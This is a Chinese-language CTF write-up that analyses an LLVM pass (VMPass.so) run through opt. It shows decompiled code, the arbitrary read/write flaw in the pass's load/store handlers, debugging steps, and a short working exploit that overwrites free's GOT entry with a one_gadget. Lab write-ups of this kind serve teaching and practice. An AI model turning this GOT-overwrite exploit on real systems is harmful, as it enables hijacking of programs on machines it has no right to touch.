
# 参考资料
[https://bbs.kanxue.com/thread-274259.htm#msg_header_h2_6](https://bbs.kanxue.com/thread-274259.htm#msg_header_h2_6)

[http://www.blackbird.wang/2022/08/30/LLVM-PASS%E7%B1%BBpwn%E9%A2%98%E6%80%BB%E7%BB%93/](http://www.blackbird.wang/2022/08/30/LLVM-PASS%E7%B1%BBpwn%E9%A2%98%E6%80%BB%E7%BB%93/)

# 检查
因为它是通过 opt 运行的，opt 会从动态库 VMPASS.so 中加载 PASS 类，再用这个 PASS 类对 IR 进行优化，所以被打的对象是 opt


#  逆向分析
搜索 vtable 来定位虚表；最底部的函数是被重写的虚函数 runOnFunction

它检查你正在优化的程序中的函数名；如果存在一个名为 o0o0o0o0 的函数，就调用 sub_6AC0

逐块遍历该函数



然后它调用 sub_6B80 来处理该块

```cpp
__int64 __fastcall sub_6B80(__int64 a1, llvm::BasicBlock *basic_block)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  command[1] = __readfsqword(0x28u);
  command[0] = llvm::BasicBlock::begin(basic_block);
  while ( 1 )
  {
    end = llvm::BasicBlock::end(basic_block);
    if ( (llvm::operator!=(command, &end) & 1) == 0 )
      break;
    v36 = (llvm::Instruction *)llvm::dyn_cast<llvm::Instruction,llvm::ilist_iterator<llvm::ilist_detail::node_options<llvm::Instruction,false,false,void>,false,false>>(command);
    if ( (unsigned int)llvm::Instruction::getOpcode(v36) == 55 )// 遇到call指令
    {
      v35 = (llvm::CallBase *)llvm::dyn_cast<llvm::CallInst,llvm::Instruction>(v36);// 转换为call指令对应的指针
      if ( v35 )
      {
        name = (char *)malloc(0x20uLL);
        CalledFunction = (llvm::Value *)llvm::CallBase::getCalledFunction(v35);
        v37 = (_QWORD *)llvm::Value::getName(CalledFunction);
        *(_QWORD *)name = *v37;
        *((_QWORD *)name + 1) = v37[1];
        *((_QWORD *)name + 2) = v37[2];
        *((_QWORD *)name + 3) = v37[3];
        if ( !strcmp(name, "pop") )
        {
          if ( (unsigned int)llvm::CallBase::getNumOperands(v35) == 2 )
          {
            ArgOperand = llvm::CallBase::getArgOperand(v35, 0);
            v32 = 0LL;
            v31 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(ArgOperand);
            if ( v31 )
            {
              ZExtValue = llvm::ConstantInt::getZExtValue(v31);
              if ( ZExtValue == 1 )
                v32 = off_20DFD0;
              if ( ZExtValue == 2 )
                v32 = off_20DFC0;
            }
            if ( v32 )
            {
              v3 = sp_point;
              *v32 = *(_QWORD *)*sp_point;
              *v3 = (char *)*v3 - 8;
            }
          }
        }
        else if ( !strcmp(name, "push") )
        {
          if ( (unsigned int)llvm::CallBase::getNumOperands(v35) == 2 )
          {
            v29 = llvm::CallBase::getArgOperand(v35, 0);
            v28 = 0LL;
            v27 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v29);
            if ( v27 )
            {
              v26 = llvm::ConstantInt::getZExtValue(v27);
              if ( v26 == 1 )
                v28 = off_20DFD0;
              if ( v26 == 2 )
                v28 = off_20DFC0;
            }
            if ( v28 )
            {
              v4 = sp_point;
              *sp_point = (char *)*sp_point + 8;
              *(_QWORD *)*v4 = *v28;
            }
          }
        }
        else if ( !strcmp(name, "store") )
        {
          if ( (unsigned int)llvm::CallBase::getNumOperands(v35) == 2 )
          {
            v25 = llvm::CallBase::getArgOperand(v35, 0);
            v24 = 0LL;
            v23 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v25);
            if ( v23 )
            {
              v22 = llvm::ConstantInt::getZExtValue(v23);
              if ( v22 == 1 )
                v24 = off_20DFD0;
              if ( v22 == 2 )
                v24 = off_20DFC0;
            }
            if ( v24 == off_20DFD0 )
            {
              **(_QWORD **)off_20DFD0 = *(_QWORD *)off_20DFC0;
            }
            else if ( v24 == off_20DFC0 )
            {
              **(_QWORD **)off_20DFC0 = *(_QWORD *)off_20DFD0;
            }
          }
        }
        else if ( !strcmp(name, "load") )
        {
          if ( (unsigned int)llvm::CallBase::getNumOperands(v35) == 2 )
          {
            v21 = llvm::CallBase::getArgOperand(v35, 0);
            v20 = 0LL;
            v19 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v21);
            if ( v19 )
            {
              v18 = llvm::ConstantInt::getZExtValue(v19);
              if ( v18 == 1 )
                v20 = off_20DFD0;
              if ( v18 == 2 )
                v20 = off_20DFC0;
            }
            if ( v20 == off_20DFD0 )
              *(_QWORD *)off_20DFC0 = **(_QWORD **)off_20DFD0;
            if ( v20 == off_20DFC0 )
              *(_QWORD *)off_20DFD0 = **(_QWORD **)off_20DFC0;
          }
        }
        else if ( !strcmp(name, "add") )
        {
          if ( (unsigned int)llvm::CallBase::getNumOperands(v35) == 3 )
          {
            v17 = llvm::CallBase::getArgOperand(v35, 0);
            v16 = 0LL;
            v15 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v17);
            if ( v15 )
            {
              v14 = llvm::ConstantInt::getZExtValue(v15);
              if ( v14 == 1 )
                v16 = off_20DFD0;
              if ( v14 == 2 )
                v16 = off_20DFC0;
            }
            if ( v16 )
            {
              v13 = llvm::CallBase::getArgOperand(v35, 1u);
              v12 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v13);
              if ( v12 )
                *v16 += llvm::ConstantInt::getZExtValue(v12);
            }
          }
        }
        else if ( !strcmp(name, "min") && (unsigned int)llvm::CallBase::getNumOperands(v35) == 3 )
        {
          v11 = llvm::CallBase::getArgOperand(v35, 0);
          v10 = 0LL;
          v9 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v11);
          if ( v9 )
          {
            v8 = llvm::ConstantInt::getZExtValue(v9);
            if ( v8 == 1 )
              v10 = off_20DFD0;
            if ( v8 == 2 )
              v10 = off_20DFC0;
          }
          if ( v10 )
          {
            v7 = llvm::CallBase::getArgOperand(v35, 1u);
            v6 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v7);
            if ( v6 )
              *v10 -= llvm::ConstantInt::getZExtValue(v6);
          }
        }
        free(name);
      }
    }
    llvm::ilist_iterator<llvm::ilist_detail::node_options<llvm::Instruction,false,false,void>,false,false>::operator++(
      command,
      0LL);
  }
  return 1LL;
}
```
# 漏洞

根据指定的寄存器，把该寄存器值所指向的内容赋给另一个寄存器

根据指定的寄存器，把另一个寄存器赋给该寄存器值所指向的内容

存在任意地址读写

# 思路
 ~~PIE 没有开启，因此可以利用任意读写，用一个 gadget 覆盖 free 的 GOT 表项，因为 opt 优化调用的函数最终会调用 free~~ 

这样不太行；被调用的并不是 PIE 中的 free，最后用的是另一个函数中的 free


但是，如果最终执行到 call free 这条指令时，此时 rbp 为 0，会导致段错误


这里参考了 winmt 大佬的思路

选这个

GOT 表：找到了两个 GOT 表，两个都试一下


第二个失败了；上面那个成功了


# 调试

```bash
clang-8 -emit-llvm -S exp.c -o exp.bc或者
clang-8 -emit-llvm -S exp.c -o exp.ll
```

```bash
opt-8 -load ./VMPass.so -VMPass ./exp.bc
```
调试 opt，然后跟进到 .so 文件中

opt 一开始并不会加载 .so 模块；它会先执行一些初始化函数，然后才加载 .so 模块。
调试时可以在 llvm::Pass::preparePassManager 处下断点。执行到这里时，LLVMHello.so 文件已经被加载（或者跳到 main+11507），这样我们就可以根据偏移量在 LLVMHello.so 内部下断点
检查 vmmap，发现它已经被加载了，然后就可以根据偏移量在 runOnFunction 处下断点



成功

注意寄存器一开始都是 0，所以 add 实际上等同于直接赋值


找到 GOT 表




# 定位 PASS 名称
通过对 `_cxa_atexit` 的引用来定位（在 start 函数中）




# exp
add 的第二个参数使用 64 位



```c

void add(int arg1,int arg2);
void load(int arg1);
void store(int arg1);

void o0o0o0o0(){
    add(1,0x77e100);
    load(1); //将free的got表的内容复制给第二个寄存器
    add(2,0x4942e); //free的地址和onegadget的偏移
    add(1,0x870);
    store(1); //修改free的got表的内容

}//0xe3b04 0xe3b01 0000000000006F8F
```



